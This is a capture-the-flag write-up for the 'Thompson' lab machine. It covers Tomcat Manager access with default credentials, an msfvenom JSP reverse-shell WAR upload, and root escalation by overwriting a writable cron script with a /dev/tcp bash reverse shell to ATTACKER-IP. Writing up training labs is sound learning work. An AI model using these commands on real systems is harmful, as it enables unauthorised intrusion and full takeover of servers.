










# Thompson CTF - Write-up

This machine focuses on web exploitation through Apache Tomcat, followed by privilege escalation via a misconfigured cron job. The goal is to obtain both user and root flags.

## Reconnaissance

We start by identifying open ports using Nmap:

```nmap -sV -sC -Pn TARGET-IP```



Since port *8080* is running Tomcat, we proceed with web enumeration.

## Web Enumeration

Using Gobuster to discover directories:

```gobuster dir -u http://TARGET-IP:8080 -w /usr/share/wordlists/dirb/common.txt```



The `/manager/` panel requires authentication.

## Initial Access

Testing weak/default credentials, we successfully log in using:

```tomcat:s3cret```



## Exploitation

The Tomcat Manager allows uploading `.war` files, which can be used to gain a reverse shell.



### Generate malicious WAR file and start listener:

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER-IP LPORT=4444 -f war -o shell.war```
```nc -lvnp 4444```



### Upload and execute

+ Upload `shell.war` via `/manager`

+ Access the deployed app via browser

This triggers a reverse shell.

## User flag

After gaining access, we navigate the system and retrieve the user flag:

```cat /home/jack/user.txt```



## Privilege Escalation

Checking cron jobs:

```cat /etc/crontab```



We discover a script:

```/home/jack/id.sh```

This script runs as root and is writable.

## Exploiting Cron Job

We overwrite the script with a reverse shell:

`echo 'bash -i >& /dev/tcp/ATTACKER-IP/5555 0>&1' > /home/jack/id.sh
chmod +x /home/jack/id.sh`



Start listener:

```nc -lvnp 5555```

Once the cron job executes, we receive a shell as root.



## Root Flag

```cat /root/root.txt```



The root flag was successfully captured.

## Conclusion:

This machine demonstrates:

+ Weak credential usage in Tomcat Manager
+ WAR file upload exploitation
+ Privilege escalation via writable cron script

## Notes / Improvements
+ The AJP port (8009) was open but not required for exploitation in this case.
+ Proper enumeration of Tomcat endpoints was key to initial access.
+ Always check cron jobs for privilege escalation opportunities.
